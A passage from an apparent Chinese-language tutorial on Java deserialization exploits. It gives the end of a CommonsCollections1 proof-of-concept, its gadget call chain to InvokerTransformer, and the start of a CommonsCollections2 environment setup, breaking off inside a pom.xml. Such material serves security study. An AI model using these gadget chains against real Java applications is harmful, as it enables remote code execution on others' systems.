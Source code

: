 ```java
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

![undefined](https://p2.ssl.qhimg.com/t0134722788f8b3c490.png "undefined")

## 调用链

```java
AnnotationInvocationHandler.readObject()
   *Map(Proxy).entrySet()
        *AnnotationInvocationHandler.invoke()
            LazyMap.get()/TransformedMap.setValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        InvokerTransformer.transform()
```

## 总结
利用`AnnotationInvocationHandler`在反序列化时会触发`Map`的`get/set`等操作，配合`TransformedMap/LazyMap`在执行`Map`对象的操作时会根据不同情况调用`Transformer`的转换方法，最后结合了`ChainedTransformer`的链式调用、`InvokerTransformer`的反射执行完成了恶意调用链的构成，其中`LazyMap`的触发还用到了动态代理机制。

# CommonsCollections2链
## 环境搭建
1. `JDK`版本：JDK1.8u66
2. `Commons-Collections4`版本：4.0
3. `javassit`版本：`3.25.0-GA`

利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.25.0-GA</version>
```